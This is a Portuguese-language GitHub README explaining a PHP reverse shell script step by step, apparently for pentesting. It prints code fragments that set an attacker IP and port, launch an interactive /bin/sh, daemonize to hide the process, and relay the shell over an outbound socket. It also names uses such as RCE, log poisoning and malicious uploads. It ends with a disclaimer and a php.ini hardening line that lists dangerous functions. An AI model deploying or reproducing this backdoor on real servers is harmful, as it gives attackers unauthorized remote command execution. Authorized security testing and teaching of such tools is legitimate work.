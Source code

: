 
# 🐚 PHP Reverse Shell

Este repositório contém um script de **shell reverso em PHP**, adaptado e comentado em português, ideal para fins educacionais e testes de segurança autorizados.

---

## ⚠️ AVISO IMPORTANTE

Este código é **potencialmente perigoso** e pode ser utilizado de forma maliciosa. No entanto, ele também tem **aplicações legítimas** em testes de intrusão (pentest), auditorias de segurança e simulações ofensivas.

> ❗ **Nunca utilize este tipo de código em sistemas sem permissão explícita.**  
> O uso indevido pode violar leis locais e internacionais.  
> O autor **não se responsabiliza** por qualquer dano ou uso indevido.

---

## 🔍 O que o código faz — Explicado passo a passo

Este código é uma shell reversa, ou seja, um tipo de **backdoor** que faz com que o servidor PHP (vítima) se conecte a outro computador (atacante), oferecendo um terminal remoto com o mesmo privilégio do processo PHP (normalmente `www-data`, `apache`, etc.).

### 1. Configuração Inicial

```php
set_time_limit(0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // IP do atacante - deve ser alterado
$port = 1234;       // Porta do atacante - deve ser alterada
```

- `set_time_limit(0)` → desativa o limite de tempo do script (ele roda indefinidamente).
- `$ip` e `$port` → definem para onde o script PHP irá se conectar.

---

### 2. Comando Inicial

```php
$shell = 'uname -a; w; id; /bin/sh -i';
```

- Executa comandos úteis para identificar o sistema e depois inicia um shell interativo:
  - `uname -a` → informações do sistema operacional.
  - `w` → usuários logados.
  - `id` → UID e grupos do processo.
  - `/bin/sh -i` → shell interativo.

---

### 3. Daemonização (opcional)

```php
if (function_exists('pcntl_fork')) {
    $pid = pcntl_fork();
    ...
}
```

- Se possível, transforma o script em **daemon** (processo de segundo plano):
  - Oculta o processo.
  - Evita "zombies".
- Caso não seja possível, ele continua normalmente e exibe um aviso.

---

### 4. Conexão com o atacante

```php
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
```

- Abre uma conexão TCP para o IP/porta do atacante.
- Esse será o canal reverso para o shell.
- Se falhar, o script termina.

---

### 5. Execução do processo do shell

```php
$process = proc_open($shell, $descriptorspec, $pipes);
```

- Inicia um processo `/bin/sh -i` com entrada e saída redirecionadas para pipes.
- Permite redirecionar comandos e saídas via socket TCP.

---

### 6. Torna os streams não bloqueantes

```php
stream_set_blocking(..., 0);
```

- Evita que o script fique travado aguardando leitura ou escrita em um stream.

---

### 7. Loop de comunicação

```php
while (1) {
    ...
}
```

- Loop infinito que:
  - Lê dados do socket (comandos do atacante) → envia ao shell.
  - Lê saída do shell → envia de volta ao socket.
- Atua como um **proxy de terminal interativo** entre vítima e atacante.

---

### 8. Encerramento limpo

- Fecha todos os pipes, socket e termina o processo:
```php
fclose(...);
proc_close(...);
```

---

### 9. Função `printit()`

```php
function printit($string) {
    if (!$daemon) {
        print "$string\n";
    }
}
```

- Exibe mensagens de log no terminal **apenas se não estiver daemonizado**.
- Útil para depuração ou execução manual.

---

## ✅ Exemplos de uso legítimo

- Testes de segurança (pentest) com permissão da empresa/cliente.
- Simulações de ataque para avaliar respostas de segurança.
- Análises forenses e educacionais.

---

## 💡 Conclusão Técnica

Este script:

- Cria um canal de comunicação reverso (inbound no atacante, outbound na vítima).
- Permite execução remota de comandos em tempo real.
- Não depende que a vítima tenha portas abertas — apenas que o PHP tenha funções habilitadas.
- Muito útil em exploração de vulnerabilidades como RCE, LFI+log poisoning ou upload malicioso.

---

## 🛡️ Proteção recomendada

No `php.ini`, desative funções perigosas para evitar exploração:

```ini
disable_functions = proc_open, shell_exec, system, passthru, exec, popen, fsockopen
```

---

## 🧑‍💻 Autor

- [h4ckthreat](https://www.instagram.com/h4ckthreat/)

---

## 📄 Licença

Distribuído sob a [GNU GPL v3](https://www.gnu.org/licenses/old-licenses/gpl-3.0.html).
